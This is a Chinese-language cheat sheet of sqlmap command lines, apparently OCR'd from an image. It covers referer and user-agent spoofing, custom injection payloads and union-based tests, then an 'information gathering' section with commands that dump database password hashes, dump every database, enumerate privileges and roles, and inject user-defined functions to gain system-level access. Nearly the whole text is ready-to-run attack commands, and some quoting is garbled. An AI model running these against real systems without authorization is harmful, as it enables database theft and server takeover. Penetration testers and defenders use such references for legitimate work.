 (15)refer欺骗：

./sqlmap.py -u "url" --refer "url" -v 3

(16)使用自定义user-agent或者user-agents.txt：

./sqlmap.py -u "url" --user-agent "Mozilla/4.0(compatible;MSIE 7.0;Windows NT5.1)" -v 3

./sqlmap.py -u "url" -a "./txt/user-agents.txt" -v 1

(17)使用多线程猜解：

./sqlmap.py -u "url" --current-user --threads 3 -v 1

(18)指定数据库，绕过salmap自动检测：

./sqlmap.py -u "url" --dbms "PostgreSQL" -v 2

(19)指定操作系统：

./sqlmap.py -u "url" --os "Windows" -v 2

(20)自动义payload:

./sqlmap.py -u "url" -p "id" --prefix " ' " --postfix "and 'test' = 'test "

(21)union注入测试：

./sqlmap.py -u "url" --union-test -v 1

(22)配合order by:

./sqlmap.py -u "url" --union-test --union-tech orderby -v 1

(23) ./sqlmap.py -u "url" --union-use --banner -v 1

./sqlmap.py -u "url" --union-use --current-user -v 5

./sqlmap.py -u "url" --union-use --dbs -v 1




******************信息获取******************

 

sqlmap -u “ –smart –dbms “Mysql” –users  #列数据库用户  

sqlmap -u “ –smart –dbms “Mysql” –dbs#列数据库 

sqlmap -u “ –smart –dbms “Mysql”–passwords #数据库用户密码  

sqlmap -u “ –smart –dbms “Mysql”–passwords-U root  -v 0 #列出指定用户数据库密码 

sqlmap -u “ –smart –dbms “Mysql” –dump-all -v 0 #列出所有数据库所有表   
sqlmap -u “ –smart –dbms “Mysql”–privileges #查看权限  

sqlmap -u “ –smart –dbms “Mysql”–privileges -U root #查看指定用户权限  

sqlmap -u “ –smart –dbms “Mysql” –is-dba -v 1 #是否是数据库管理员 

sqlmap -u “ –smart –dbms “Mysql” –roles #枚举数据库用户角色  

sqlmap -u “ –smart –dbms “Mysql”–udf-inject #导入用户自定义函数（获取系统权限！）  

sqlmap -u “ –smart –dbms “Mysql”–dump-all –exclude-sysdbs -v 0 #列出当前库所有表  
sqlmap -u “ –smart –dbms “Mysql” –union-check #是否支持union 注入  

